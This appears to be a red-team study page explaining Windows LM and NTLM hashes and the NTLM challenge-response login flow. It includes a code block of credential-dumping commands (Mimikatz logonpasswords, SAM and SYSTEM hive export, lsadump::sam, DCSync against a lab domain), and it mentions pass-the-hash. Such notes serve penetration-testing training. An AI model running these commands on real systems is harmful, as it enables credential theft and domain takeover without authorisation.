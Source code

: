 ## Windows Authentication

### LM
Was being used by default before windows vista, windows server 2008 (Weak hashing algorithm).

### NT Hash (NTLM)
Currently used for storing passwords at windows systems (Used for pass-the-hash attack).

### LM & NTLM Dump
```
# Dump from memory (Mimikatz)
privilege::debug
sekurlsa::logonpasswords

# Dump from SAM database
reg save HKLM\sam sam
reg save HKLM\system system
lsadump::sam /system:system /sam:sam //Mimikatz

# Dump from Domain Controller
lsadump::dcsync /domain:marvel.local /all /csv //Mimikatz (needs domain admin)
```

### NTLMv1 (Net-NTLMv1)
Not stored locally, used on the fly while authentication.

### NTLMv2 (Net-NTLMv2)
Same as NTLMv1, just with some modification on the encryption algorithm.

### NTLM Authentication Mechanism
- The user enters his username and password.
- The client initiates a negotiation request with the server, that request includes any information about the client capabilities as well as the Dialect or the protocols that the client supports.
- The server picks up the highest dialect and replies through the Negotiation response message then the authentication starts.
- The client then negotiates an authentication session with the server to ask for access.
- The server responds to the request by sending an NTLM challenge.
- The client then encrypts that challenge with his own pre-entered password’s hash (NTLM Hash) and sends his username, challenge, and challenge-response back to the server (Net-NTLM Hash).
- The server tries to encrypt the challenge as well using its own copy of the user’s hash (NTLM Hash) which is stored locally on the server in case of local authentication, or pass the information to the domain controller in case of domain authentication, comparing it to the challenge-response, if equal then the login is successful.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen1.png?raw=true)

Note: To use NTLM authentication instead of Kerberos authentication, access IP addresses instead of Hostnames dir \\10.0.2.100\c$.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen2.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen3.png?raw=true)
![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/LateralMovement/Images/Screen4.png?raw=true)
